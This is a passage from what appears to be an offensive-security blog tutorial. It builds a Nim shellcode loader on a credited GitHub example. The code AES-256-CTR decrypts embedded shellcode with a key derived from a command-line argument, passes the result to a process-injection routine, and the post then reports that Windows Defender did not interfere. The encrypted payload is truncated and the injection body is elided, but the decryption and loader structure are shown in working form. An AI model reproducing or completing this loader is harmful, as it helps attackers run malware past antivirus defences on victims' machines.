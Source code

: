 We can use the put in our existing code. But we need to write decryption routine. So am once again using [S3cur3Th1sSh1t](https://twitter.com/ShitSecure)'s [work](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader.nim)

Before adding the decryption routine, let's make some changes to the code.

We will create a new function called CRT and add our process injection code there.

```nim
proc CRT[byte](shellcode: openArray[byte]): void =
    <code>
```

We will define a default entry point by creating **isMainModule** and inside that we will write the decryption routine.

```nim
when isMainModule:

    func toByteSeq*(str: string): seq[byte] {.inline.} = @(str.toOpenArrayByte(0, str.high))
    # Add encrypted shellcode
    let code: string = "Qcpl4JUHjauAZ6C6wAlJmH0wdJxp7<snip>"
    var
        encrypted: seq[byte] = toByteSeq(decode(code))
        dctx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        decrypted: seq[byte] = newSeq[byte](len(encrypted))

    var expandedKey = sha256.digest(paramStr(1))
    copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))

    # Change  IV
    dctx.init(key, [byte 123, 231, 234, 243, 123, 231, 234, 243, 125, 249, 123, 231, 234, 243, 133, 149])
    dctx.decrypt(encrypted, decrypted)
    dctx.clear()
    CRT(decrypted)
```

Once the code flow is fixed. Let's compile and see whether it's working or not.

<p align="center"><img src="/images/nim/enc_shell.jpeg"></p>

As we can see that, there was no interference from from Windows Defender.

